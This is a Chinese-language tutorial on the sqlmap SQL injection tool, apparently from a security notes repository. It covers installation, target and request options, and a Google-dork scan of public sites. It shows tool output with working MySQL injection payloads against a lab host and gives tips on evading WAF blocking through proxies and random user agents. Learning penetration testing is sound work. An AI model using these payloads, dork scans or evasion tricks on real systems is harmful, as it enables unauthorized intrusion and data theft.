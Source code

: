 ### 1、sqlmap支持的数据库
```yaml
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB
```
### 2、官网地址
```yaml
官方网站: http://sqlmap.org/，
下载地址: https://github.com/sqlmapproject/sqlmap/zipball/master
```
### 3、Mac 或者 Linux下只用git直接下载安装
```shell script
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```
#### 更新
```shell script
Oswald:~ oliver$ cd sqlmap-dev/
Oswald:sqlmap-dev oliver$ git pull
```
### 4、参数Target：
#### 4.1 -u：指定url
```yaml
1、必须带参数：如172.16.120.252:8080/vulnerabilities/sqli/?id=1&Submit=Submit
            ？后面必须带参数，没有"？+参数"不行带的，至少1个参数
```
```shell script
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -u "http://172.16.120.252:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie="PHPSESSID=iepjlmrss0sgkel1rco5p50np4; security=low"
# -p：指定注入的参数是id
# --cookie：指定cookie
```
执行结果
```shell script
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.1.7#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program"

[*] starting @ 17:20:21 /2022-01-26/                                    

[17:20:21] [INFO] resuming back-end DBMS 'mysql' 
[17:20:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=123' OR NOT 8112=8112#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=123' AND (SELECT 5541 FROM(SELECT COUNT(*),CONCAT(0x716b706271,(SELECT (ELT(5541=5541,1))),0x716a767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- APwC&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123' AND (SELECT 5279 FROM (SELECT(SLEEP(5)))ZuPY)-- ZXef&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=123' UNION ALL SELECT CONCAT(0x716b706271,0x6454597779524d6e65754855505750796452624962684b466a535464616f784951474e5574745356,0x716a767171),NULL#&Submit=Submit
---
[17:20:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)  # 系统版本
web application technology: Apache 2.4.10   # 服务是Apache
back-end DBMS: MySQL >= 5.0   # mysql的版本
[17:20:21] [INFO] fetched data logged to text files under '/Users/oliver/.local/share/sqlmap/output/172.16.120.252'

[*] ending @ 17:20:21 /2022-01-26/
```
#### 4.2 -l：使用BurpSuite的日志，来分析目标日志文件
![image](https://github.com/498946975/Security/blob/master/images/sql_map_1.png)
```shell script
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -l /Users/oliver/Desktop/test_burpsuite 
```
#### 4.3 -m：从文件中获取多个url目标进行扫描
![image](https://github.com/498946975/Security/blob/master/images/sql_map_2.png)
```shell script
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -m /Users/oliver/Desktop/test_sql_map_m.txt 
```
#### 4.4 -r：读取一个文本中的HTTP请求，可以跳过设置参数的步骤（如cookie，UA，post的数据等）
![image](https://github.com/498946975/Security/blob/master/images/sql_map_3.png)
```shell script
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -r /Users/oliver/Desktop/test_sql_map_r.txt 
```
注入结果，和使用的sql语句
```shell script
[16:58:42] [WARNING] GET parameter 'Submit' does not seem to be injectable
sqlmap identified the following injection point(s) with a total of 3943 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind   # 布尔盲注
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=123' OR NOT 8112=8112#&Submit=Submit

    Type: error-based     # 报错注入
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=123' AND (SELECT 5541 FROM(SELECT COUNT(*),CONCAT(0x716b706271,(SELECT (ELT(5541=5541,1))),0x716a767171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- APwC&Submit=Submit

    Type: time-based blind    # 时间盲注
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123' AND (SELECT 5279 FROM (SELECT(SLEEP(5)))ZuPY)-- ZXef&Submit=Submit

    Type: UNION query   # 联合注入
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=123' UNION ALL SELECT CONCAT(0x716b706271,0x6454597779524d6e65754855505750796452624962684b466a535464616f784951474e5574745356,0x716a767171),NULL#&Submit=Submit
---
[16:58:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10
back-end DBMS: MySQL >= 5.0
[16:58:42] [INFO] fetched data logged to text files under '/Users/oliver/.local/share/sqlmap/output/172.16.120.252'

[*] ending @ 16:58:42 /2022-01-26/
```
注意处理https请求
```yaml
需要配合这个--force-ssl参数来使用，或者你可以在Host头后面加上:443
```
#### 4.5 -g：sqlmap可以测试注入Google的搜索结果中的GET参数(只获取前100个结果)
结合GoogleHack语法语法，进行搜索注入
```shell script
Oswald:sqlmap-dev oliver$ python sqlmap.py -g "inurl:\".php?id=1\""
# 搜索这个url包含"php?id=1"的前100个
```

### 5、参数Request：请求设置
#### 5.1 参数功能总结
```yaml
 --method:指定请求方法
--data:把数据以POST方式提交 --param:当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数 
--cookie:设置cookie，提交请求的时候附带所设置的cookie
--load-cookies:从文件获取cookie
--user-agent:可以使用–user-anget参数来修改
--headers:可以通过–headers参数来增加额外的http头
--proxy:设置代理
--delay:可以设定两个HTTP(S)请求间的延迟 防止发送过快导致被封ip 
--random-agent:使用–random-agnet参数来随机的从./txt/user-agents.txt中获取。当–level参数设定为 3或者3以上的时候，会尝试对User-Angent进行注入。 
--referer:在请求目标的时候可以自己伪造请求包中的referer
–-level:参数设定为3或者3以上的时候会尝试对 referer注入。默认是1，等级范围是1～5
```
#### 5.2 设置http请求头的UA，--user-agent
```yaml
一些默认请求的UR一般情况下会被WARF拦截，所以建议更换UA
```
#### 5.3 设置代理，--proxy
```yaml
因为怕自己的ip被WARF干掉，所以在sqlmap扫描的时候，使用--proxy代理，代理的其他的机器上进行操作更安全
```
#### 5.4 随机使用user-agent，--random-agent
```yaml
也是可以绕过WARF的
```
### 6、防止被WARF拦截，或者策略封堵的技巧
```yaml
1、--proxy
2、--random-agent
3、--safe-url
4、--safe-freq
```
### 7、--safe-url，--safe-freq，防止被封堵
```yaml
如果访问一个网址，一直报错（sqlmap就是无限的尝试，所以报错的几率非常高），为了防止被屏蔽掉
1、--safe-url:提供一个安全不错误的连接，每隔一段时间都会去访问一下。 
2、--safe-freq:提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。
```
### 8、--scope: 使用正则表达式，对BurpSuite的日志，进行过滤，攻击指定的网址
```shell script
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -l /Users/oliver/Desktop/test_burpsuite --scope="172.16.120.252"
```
```shell script
扫某个网站的:
Oswald:sqlmap-dev oliver$ python3 sqlmap.py -l /Users/oliver/Desktop/test_burpsuite --scope="(www)?\.某个网站.\(com|net|org)"
```
### 9、--eval，在每次注入的时候，执行python代码
```yaml
应用场景：在注入的时候，有一个参数，假如是md5算出来的值，每次都需要把这个参数，上传给服务器，以达到认证的目的
```
```shell script
python sqlmap.py -u"http://www.target.com/vuln.php? id=1&amp;hash=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib;hash=hashlib.md5(id).hexdigest()"
```
### 10、-o，开启所有优化开关